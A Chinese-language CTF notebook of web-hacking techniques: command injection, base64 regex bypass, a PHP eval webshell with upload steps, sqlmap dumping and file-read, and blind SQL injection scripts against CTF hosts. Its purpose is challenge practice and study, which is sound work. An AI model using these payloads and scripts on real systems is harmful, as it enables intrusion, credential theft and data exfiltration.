





# Web
- 不能全信前端的代码提示
- 思路应该灵活，避免深陷一点（比如网站泄露 .git 目录，可能只是一个陷阱，真正的突破口与此毫无关系）

## HTTP 和网页

- HTTP 会将 URL 和 Headers 自动解 urldecode，但是不会解 POST 方法内的 urldecode (其实不一定，urldecode 是由编程语言负责的，具体看怎么设定的)
- HTTP 的 get 方法在传参时不要画蛇添足加""（双引号），http 的参数本身就会被识别为字符串
- HTTP GET 方法的 `#` 必须被编码为 %23 再发送，因为 `#` 这部分通常由浏览器处理，不会发送到服务器

### httpie

> Chrome 无法显示源码时，可直接用工具(如 httpie)请求接口

#### HTTP (GET / POST) 工具

```bash
# GET
http GET http:x?name=felord&age=18

# POST
http POST http:x name=felord age=18
```

### 前端伪造

#### 伪造浏览器

遇到过一道题，让你用 WLLM 浏览器访问，此时只要设置

```
User-Agent=WLLM
```

即可

#### 伪造 ip 

X-Forwarded-For: 127.0.0.1

有时候网站多刷新几次会有不同的发现
        
注意观察网站刷新的原因是否由 Cookie 等字段影响的？

### 网页

- 当 Web 页面的地址更换 (如 /index.php 变为 /a.php)，相应的 get / post 请求应该即使切换到 /a.php
- 遇到网页时首先都应该观察**源码及 JS 文件**中有没有隐藏信息
- 一个复杂的网页，页面中很可能隐藏了重要外链
- 见过在一个很长的 js 文件中藏了一个注释，例如 /f@k3f1ag.php
- 看到类似 `(+[![]]+[])[+[]]+` 的密文要联想到 jsfuck，可以直接在控制台执行
- 注意观察前端填写的 `payload` 和抓包结果是否一致，有时候是前端限制，必须通过接口发送数据

#### 网页链接提取

自动提取网页中包含的链接，并排除黑名单后缀。（用于发现复杂网页包含的重要外链信息）

```javascript
(function() {
    var allElements = Array.from(document.querySelectorAll('*'));
    var allUrls = [];
  	// 链接黑名单后缀
    var staticFileExtensions = ['jpg', 'png', 'gif', 'css', 'js'];

    allElements.forEach(function(el) {
        if (el.hasAttribute('href')) {
            allUrls.push(el.getAttribute('href'));
        }
        if (el.hasAttribute('src')) {
            allUrls.push(el.getAttribute('src'));
        }
    });

    var nonStaticUrls = allUrls.filter(function(url) {
        var extension = url.split('.').pop();
        return staticFileExtensions.indexOf(extension) === -1;
    });

    var uniqueNonStaticUrls = [...new Set(nonStaticUrls)];

    console.log(uniqueNonStaticUrls);
})();
```

#### JavaScript

##### JS 函数绕过

如果函数在对象中，可以通过修改属性的方式动态修改对象方法来实现绕过。如 `car.a = function () {}`

##### JSON 要用双引号

你需要确保遵循正确的 JSON 格式，其中包括使用双引号而不是单引号。(不要当成 Python 的字典)

## Linux

- Linux 命令绕过，可以用 | 或 & 或 ;

  在 Linux 中，`|`、`&` 和 `;` 都是常用的命令行符号，每个符号都有自己的特定用途。

  1. `|` (管道)：这个符号用于将一个命令的输出作为另一个命令的输入。例如，`command1 | command2`，这里 command1 的输出会作为 command2 的输入。

  2. `&`：这个符号用于在后台运行命令。如果你在命令后加上 `&`，那么这个命令就会在后台运行，你可以继续在命令行中输入和执行其他命令。例如，`command &`，这里 command 会在后台运行。

  3. `;`：这个符号用于在同一行中运行多个命令。命令在 `;` 后面的命令会在前一个命令执行完毕后执行，无论前一个命令是否成功。例如，`command1 ; command2`，这里 command1 会首先执行，无论其是否成功，command2 都会接着执行。

  这就是 Linux 中 `|`、`&` 和 `;` 的基本区别。
  
- `A;B`: 无论A执行成功与否都会执行B

  `A & B`: A后台执行，A、B同时执行
  `A && B`: A执行成功后才能执行B

  `A | B`: A执行的结果作为B命令的参数，AB均会执行
  `A || B`: A执行失败后执行B

### ping 注入

- 如果普通的方法无法绕过正则过滤，则考虑使用 [base 64 绕过复杂的正则表达式](####base 64 绕过复杂的正则表达式)

#### 普通方法

注入

```bash
ping -c 4 127.0.0.1 | ls
```

& 注入
```bash
ping -c 4 127.0.0.1&ls
```

使用 base64 解码
```bash
ping -c 4 127.0.0.1&cat 7672134566268.php| base64
```

### nmap 注入

```bash
-iL /flag -oN flag.txt
# 执行payload，将根目录下的flag文件内容作为扫描目标，并将扫描结果重定向到flag.txt文件中
```

### Vim 恢复 .swp 文件

```bah
vim -r <filename>
```

Vim 将会打开一个恢复会话，显示最近编辑的内容。你可以检查恢复的内容，并使用 `:w` 命令保存到一个新文件中。

### 正则表达式工具

通过正则表达式来生成文本

https://onlinetexttools.com/generate-text-from-regex

正则表达式菜鸟工具

https://c.runoob.com/front-end/854/

### Linux 绕过正则表达式

#### / 被过滤

下面这条命令可以打印当前目录及子目录的所有文件内容

```bash
cat `find`
```

#### base 64 绕过复杂的正则表达式

```bash
http://xxx/?ip=127.0.0.1;echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh
# $IFS$9 是空格绕过
# 意思是 cat flag.php
```

解释：$IFS$9 是空格绕过。"Y2F0IGZsYWcucGhw" 是 "cat flag.php" 的 Base64 编码。"cat flag.php" 是一个命令，它会显示 "flag.php" 文件的内容。

所以，整个命令 `echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh` 的含义是：

1. 使用 `echo` 命令输出 "Y2F0IGZsYWcucGhw" 这个 Base64 编码的字符串。

2. 使用 `base64 -d` 命令解码这个字符串，得到 "cat flag.php"。

3. 使用 `sh` 命令执行 "cat flag.php"，即显示 "flag.php" 文件的内容。

这个命令的目的是以一种较隐蔽的方式显示 "flag.php" 文件的内容。

上面例子的通用模版：

```bash
echo 【要执行命令的base64编码】|base64 -d|sh
```

### Linux 基本命令

#### 查看当前登录用户名

```bash
whoami
```

#### 查询是目录还是文件

```bash
ls -l 目录名 或 文件名
```

#### 查询所有文件名包含 flag 的路径，并忽视错误信息

```bash
find / -type f 2>/dev/null | grep -Ei 'flag'
```

优化版

该命令可以查询类似 `ffffllllaaaagggg` 的文件，最多不超过5个字符重复

```bash
find / -type f 2>/dev/null | grep -Ei 'f{1,5}l{1,5}a{1,5}g{1,5}'
```

## 端口扫描

### nmap
> 端口扫描工具

## 文件
- 看到 static 就联想到 Nginx 的目录穿越

### 目录扫描

#### dirsearch
Web 目录扫描工具

参数：

`--exclude-sizes 20KB,21KB` : 排除 20 到 21KB 的响应

```bash
# 用法：
python3 dirsearch.py -t 100 -u https://target
python3 dirsearch.py -t 100 --include-status 200-399 -u http://xxx
```

### 文件注入

#### 中国蚁剑
```
PHP
1.编辑 PHP 文件内容:<?php eval(@$_POST['a']); ?>
2.将该文件上传到服务器(连接地址就是该文件路径，密码是上面输入的'a')
3.使用中国蚁剑连接该文件即可
```

### Git

#### 手动抓取
- 实测抓取的记录比 scrabble 完整。还是优先使用 scrabble，scrabble 用不了时再手动抓取

```bash
wget -r http://xxx/.git
```
当 git log 找不到记录时，继续进行下面步骤

查看过去误操作改变的历史记录
```bash
git reflog
```
一个版本一个版本查看变动
```bash
git show xxx
```

#### GitHack
- 通过网站中泄漏的 .git 文件克隆出项目目录
- 需要 Python 2 环境

#### scrabble
> 查询网站泄漏的 .git 文件，并将本目录还原为网站目录
使用方法
```bash
git clone https://github.com/denny0223/scrabble.git
./scrabble http://example.com/​
```
> 在 M1 Mac 中，/Users/Cyberbolt/Library/CloudStorage/OneDrive-个人/编程/CTF/工具/Git工具/scrabble 保留了副本

### Nginx

#### 目录穿越
穿越到上级目录 http://xxx/img../

 #### 富文本编辑器

#### 暴露服务端文件

在富文本编辑器中点击上传云文件或云图片时，暴露出了服务端目录。

## 密码爆破

### 弹窗式密码

这种密码往往通过 HTTP 的 Authorization 请求头发送，示例如下

```
Authorization: Basic YWRtaW46MDAwMA==
```

其中，将 `YWRtaW46MDAwMA==` 解 base64 可以得到 `admin:0000`，示例爆破代码如下

```python
import base64

import httpx


def main():
    with open('最新网站后台密码破解字典.txt', 'r') as f:
        passwords = f.read().splitlines()
    
    for password in passwords:
        headers = {
            'Authorization': 'Basic ' + base64.b64encode(('admin:' + password).encode()).decode()
        }
        print(headers)
        r = httpx.get('http://ed2d415d-caef-4a1a-b425-bc0ec7323fa3.challenge.ctf.show/', headers=headers)
        print(r.text)


if __name__ == '__main__':
    main()
```

## SQL 攻击

- 若系统不允许注册'admin'。可以在注册时加一个空格，如'admin '，登录时仍然可以用'admin'登录。原因见 [SQL 约束攻击](#SQL-约束攻击)

### SQL 注入

#### sqlmap

参数

- `--batch`：这个参数使 sqlmap 在遇到需要用户输入的情况时，自动使用默认选项。这通常在你想要无人值守地运行 sqlmap 时使用。

##### GET
```bash
# 找到注入点，如 /?id=1
# 查数据库
python sqlmap.py --batch -u http://x.com/?id=1 --dbs
# 查 N 数据库的表名
python sqlmap.py --batch -u http://x.com/?id=1 -D N --tables
# 查 N 数据库的A 表的列名
python sqlmap.py --batch -u http://x.com/?id=1 -D N -T A --columns
# 查 N 数据库的 A 表的 B 列数据
python sqlmap.py --batch -u http://x.com/?id=1  -D N -T A -C B --dump


# 高级注入（只举例第一步，同样适用于 POST 请求）
python sqlmap.py --batch -u http://x.com/?id=1 --batch --level=3 --tamper=space2comment.py --dbs
```

##### POST
```bash
# 发送 POST 请求
python sqlmap.py -u http://x.com --data="name=a&pass=123456aaa"
# 此处的 name 和 pass 都是 POST 方法的参数
```

##### 清空缓存

```bash
rm -rf /root/.local/share/sqlmap/output/*.*.*.*
```

#### 服务端文件读取

```bash
python sqlmap.py -u http://61.147.171.105:56766/join.ok.php --data="username=a&passwd=a&age=1&blog=baidu.com" --file-read "/var/www/html/flag.php"
# 重点是 --file-read 参数
```

#### 万能密码表
- 有时候 sqlmap 无法使用，该方法可以登录进去

##### 通用方法

```url
http://xxx/?username=admin'or'1'='1&password=123456'or'1'='1
```

##### 绕过 PHP 的 md5()

举例

```sql
select * from 'admin' where password=md5($pass,true)
```

可使用 pass=ffifdyop 来绕过

原因：看了大佬博客，这个可以用`ffifdyop`绕过，绕过原理是：
`ffifdyop` 这个字符串被 md5 哈希了之后会变成 `276f722736c95d99e921722cf9ed621c`，这个字符串前几位刚好是 ' `or '6`
而 Mysql 刚好又会把 hex 转成 ascii 解释，因此拼接之后的形式是 `select * from 'admin' where password='' or '6xxxxx'`，等价于 or 一个永真式，因此相当于万能密码，可以绕过md5()函数。

果然，我们提交之后就绕过了这个，来到了另一个页面

#### 常用注入语句

```sql
1;show databases#
1;show tables#
1;show columns from 'Flag'#
```

#### SQL 盲注

##### 基本原理

###### 布尔盲注

布尔盲注是SQL注入攻击的一种形式，它主要用于在服务器不直接显示有用错误信息的情况下，获取数据库的信息。

布尔盲注的原理是基于SQL查询返回的结果是真（True）还是假（False）。攻击者会尝试插入一些特定的SQL查询，这些查询的结果只可能是真或假。然后，攻击者会根据应用程序的响应（比如页面是否正常加载，或者页面加载的时间等）来判断这个查询的结果是真还是假。

例如，攻击者可能会尝试这样的查询：`SELECT * FROM users WHERE id = 1 AND SUBSTRING(password, 1, 1) = 'a'`。这个查询的意思是，如果id为1的用户的密码的第一个字符是'a'，那么就返回这个用户的所有信息。然后，攻击者会根据应用程序的响应来判断密码的第一个字符是否为'a'。

通过反复尝试不同的字符和位置，攻击者最终可以得到整个密码。这种攻击方法虽然比较慢，但是在服务器不返回有用错误信息的情况下，它是一种有效的攻击手段。

为了防止布尔盲注，应该始终对用户的输入进行验证和清理，避免直接在SQL查询中使用用户的输入。另外，也可以使用参数化查询或者预编译SQL语句，这样可以避免攻击者插入恶意的SQL代码。

###### 时间盲注

时间盲注(Time-based Blind SQL Injection)是SQL注入攻击的一种形式，它的原理是基于SQL查询的执行时间来推断查询的结果。

在时间盲注攻击中，攻击者会尝试插入一些特定的SQL查询，这些查询会导致数据库延迟一段特定的时间。然后，攻击者会根据响应的时间来判断查询的结果是真还是假。

例如，攻击者可能会尝试这样的查询：`SELECT * FROM users WHERE id = 1 AND IF(SUBSTRING(password, 1, 1) = 'a', SLEEP(10), 'false')`。这个查询的意思是，如果id为1的用户的密码的第一个字符是'a'，那么就让数据库延迟10秒，否则立即返回。然后，攻击者会根据响应的时间来判断密码的第一个字符是否为'a'。如果响应延迟了10秒，那么就说明密码的第一个字符是'a'。否则，就说明密码的第一个字符不是'a'。

通过反复尝试不同的字符和位置，攻击者最终可以得到整个密码。这种攻击方法虽然比较慢，但是在服务器不返回有用错误信息的情况下，它是一种有效的攻击手段。

为了防止时间盲注，应该始终对用户的输入进行验证和清理，避免直接在SQL查询中使用用户的输入。另外，也可以使用参数化查询或者预编译SQL语句，这样可以避免攻击者插入恶意的SQL代码。

##### SQL 盲注示例代码

- 可以使用示例代码的 SQL 注入语句来测试
- 盲注的意义是猜对当前 SQL 执行表中的某个字段的值（如表中有用户密码、flag 等信息）。如果该表已经透明，flag 肯定不在该表中，可能使用 sqlmap 解法可以获取到 flag

###### 猜密码

该方法用于猜密码，需要系统能提示密码正确还是错误。

```python
import requests

url='http://3d4bda8e-7eef-4853-9a8d-e0057f666d26.challenge.ctf.show/admin/checklogin.php'
s='0123456789abcdefghijklmnopqrstuvwxyz'
password=''
flag=''
# 从第1位到第17位，这里已知密码是17位数
for i in range(1,18):
    print("第"+str(i)+"位")
    for j in s:
        # 此处的 p 其实是数据库表中的密码属性名
        data={"u": f"'||substr(p,{str(i)},1)<'"+j, 
              "p": "1"}

        r=requests.post(url,data=data)

        if "密码错误"==r.text:
            password+=chr(ord(j)-1)
            print(password)
            break
        
print(password)

'''
在这个脚本中，SQL注入的语句是"||substr(p,"+str(i)+",1)<'"+j，这个语句的意思是"或者密码的第i位小于当前尝试的字符j"。如果这个语句为真，那么应用程序会返回一个"密码错误"的响应。这就是这个脚本如何知道哪个字符不在密码中的。

chr(ord(j)-1) 这个表达式是在Python中对字符进行处理的一种方式。
ord(j) 是Python的内置函数，用于返回一个字符（例如 j）的Unicode编码。例如，ord('a') 返回97。
-1 是对这个Unicode编码进行减1操作，即返回前一个字符的Unicode编码。
chr() 也是Python的内置函数，用于返回指定Unicode编码的字符。例如，chr(97) 返回 'a'。
所以，chr(ord(j)-1) 这个表达式的功能是返回字符j的前一个字符。例如，如果 j 是 'b'，那么 chr(ord(j)-1) 就会返回 'a'。
'''
```

这段Python代码是一个使用“盲注”技术的SQL注入攻击脚本。SQL注入是一种常见的网络攻击方法，攻击者通过输入恶意的SQL查询语句，试图从数据库中获取或修改数据。

这段代码的主要目标是尝试猜测一个17位的密码。这个密码保存在一个远程服务器的数据库中，服务器的URL是 `'http://3d4bda8e-7eef-4853-9a8d-e0057f666d26.challenge.ctf.show/admin/checklogin.php'`。

这个脚本使用一个字符集 `s`，包含所有的数字和小写字母。然后，它逐个尝试这些字符，从密码的第一位开始，直到第17位。

每次尝试都通过向服务器发送一个POST请求来完成。这个请求中包含一个特殊构造的数据字典 `data`，其中的 `"u"` 键对应的值是一个SQL查询语句的一部分。这个查询语句的意思是：如果密码的第 `i` 位的字符小于当前尝试的字符 `j`，则返回真（即，允许登录）。

然后，这个脚本检查服务器的响应。如果响应是 "密码错误"，那么脚本就知道它找到了密码的第 `i` 位的正确字符。这个字符就是当前尝试的字符 `j` 的前一个字符。然后，脚本将这个字符添加到 `password` 字符串的末尾，并开始寻找下一位字符。

这个过程一直持续到找到完整的17位密码为止。最后，脚本打印出找到的密码。

这是一个非常基本的SQL注入攻击脚本，它使用了一种被称为“盲注”的技术。在“盲注”中，攻击者通过观察应用程序的行为（在这种情况下，是服务器的响应）来推断出数据库中的信息。这种攻击通常比较慢，因为需要逐个字符地猜测信息。

###### 猜 flag

该方案用于已数据库的两个返回内容，如知道 id=1 和 id=2 的返回内容，通过 id 的填充值来注入。例题：https://www.ctfer.vip/problem/1

```python
#buuctf web Hack World
import requests

 
url = "http://3bdb8fd8-acb8-4230-96d0-3845226525ba.node4.buuoj.cn:81/index.php"
flag = ""
i = 0
 
 
while True:
    i = i + 1
    letf = 32
    right = 127
    while letf < right:
        mid = (letf+right) // 2
        # 此处 正确返回1、错误返回2 是依靠的原题目，原题目表单只有输入1和2有返回值，只能查询id是1或2的内容（判断为真返回id为1的内容，为假返回id为2的内容）。id=1的内容中包含了Hello。注意此处已知表名flag和属性名flag
        payload = f"if(ascii(substr((select(flag)from(flag)),{i},1))>{mid},1,2)"
        data = {"id":payload} 
        res = requests.post(url=url, data=data).text
        # 不同的题目此处判断条件不同。该题目为true时内容中有hello(id=1的内容)
        if "Hello" in res:
            letf = mid + 1
        else:
            right = mid
    if letf != 32:
        flag += chr(letf)
        print(flag)
    else:
        break
```

这是一段 Python 代码，它使用了二分查找和 SQL 注入的方式来从目标网站的数据库中获取 "flag"。这是一种常见的 CTF（Capture The Flag）比赛中的网页安全挑战。以下是对这段代码的详细解释：

1. `import requests`：导入 Python 的 `requests` 模块，它是一个用于发送 HTTP 请求的库。

2. `url = "http://3bdb8fd8-acb8-4230-96d0-3845226525ba.node4.buuoj.cn:81/index.php"`：这是目标网站的 URL。

3. `flag = ""`：初始化一个空字符串，用于存储查询到的 flag。

4. `i = 0`：初始化一个计数器，用于记录当前正在获取 flag 的哪个字符。

5. `while True:`：开始一个无限循环，直到找到所有的 flag 字符或遇到错误。

6. `letf = 32` 和 `right = 127`：设置 ASCII 值的搜索范围，这个范围涵盖了大部分可打印的字符。

7. `mid = (letf+right) // 2`：计算搜索范围的中点。

8. `payload = f"if(ascii(substr((select(flag)from(flag)),{i},1))>{mid},1,2)"`：构造 SQL 注入语句，这个语句会获取 flag 的第 `i` 个字符的 ASCII 值，并检查它是否大于 `mid`。

9. `data = {"id":payload}`：将 SQL 注入语句放入 POST 请求的数据中。

10. `res = requests.post(url=url, data=data).text`：发送 POST 请求并获取响应文本。

11. `if "Hello" in res:`：检查响应文本中是否包含 "Hello"，这可能是根据网站的具体行为来判断 SQL 语句的结果。

12. `letf = mid + 1` 或 `right = mid`：根据响应来调整搜索范围。

13. `if letf != 32:`：如果找到的 ASCII 值不是 32（空格字符），那么将其添加到 flag 中。

这个脚本的基本思想是通过发送特制的 SQL 语句来获取数据库中的数据，这是一种常见的网络攻击技术。在这个脚本中，攻击者使用二分查找的方式来猜测每个字符的 ASCII 值，这种方式比直接猜测每个可能的 ASCII 值要快得多。

### SQL 约束攻击

#### 加一个空格，SQL 查询不会变
- 在SQL中执行字符串处理时，字符串末尾的空格符将会被删除。换句话说“vampire”等同于“vampire ”，对于绝大多数情况来说都是成立的（诸如WHERE子句中的字符串或INSERT语句中的字符串）例如以下语句的查询结果，与使用用户名“vampire”进行查询时的结果是一样的。

```sql
SELECT * FROM users WHERE username='vampire     ';
```

## 代码注入

- `/etc/passwd` 是一个在 Unix 和类 Unix 系统中的系统文件，用于存储所有用户的基本信息。可以用该文件来测试 Web 网站是否暴露了目录。（有时候网站暴露的目录只能用相对路径访问，如 ../../../../etc/passwd）
- 题目中给出的文件名可能总是有用的，想办法将题目给出的文件都读取到

### PHP

- index.php 的默认路径是 /var/www/html/index.php
- 拿到 shell 后，要考虑 flag 可能在一个文件中，也可能在环境变量 `env` 中
- 看到类似 ?id=1 的 url，无论是不是一个正常页面，可以联想到注入（尤其可以联想到伪协议）
- 网页上显示的未必是真实源码，如果题目过滤了网页中代码没显示的字符，应该联想到网页中代码不真实。寻找真实源码或其他突破口
- 即便是代码审计的题，也要有看源码和 HTTP headers 的习惯
- php 正则表达式后加一个 /i 表示大小写不敏感匹配
- include('index.php') 后的文件未必会显示在前端，只有 echo 后才会显示到前端
- 使用 include 包含文件时，如果不显示文件内容，记得使用伪协议。伪协议往往是 `php://` 开头，如果正则表达式只允许 `php` 开头，首先想到伪协议 
- 看到 PHP 返回内容是 HTTP Headers，可以联想到 %00截断
- 如果服务器开放了 HTTP PUT 方法，可以使用  `curl -X PUT -d '<?php eval(@$_POST['a']); ?>' http://x/b.php` 注入 `b.php` 文件（如果没有任何安全设置，**'PUT请求用于更新资源，如果资源不存在，可能会创建新的资源'** 这个原则会写入文件到服务端【真实场景几乎不会遇到此漏洞】）
- 培养目录提权思维，如果一道题本身禁止访问 /flag.php，可以通过参数构造地址的方法 (类似 127.0.0.1/flag.php) 来访问。curl_setopt() 函数就类似 Python 的 requests，可以访问外部或内部地址
- 代码审计题中如果 `system('ls')` 注入不了[可能被过滤了，或者题目只给了只读权限，蚁剑的连接不一定只靠 `system`]，可以试试 `eval($_POST["a"]);`，**善用蚁剑来连接**
- SSRF
  - 常用套路 file:///etc/password ; file:///flag
  - 如果网站使用无密码 MySQL、Redis，可以考虑用 Gopherus 实现 RCE 注入
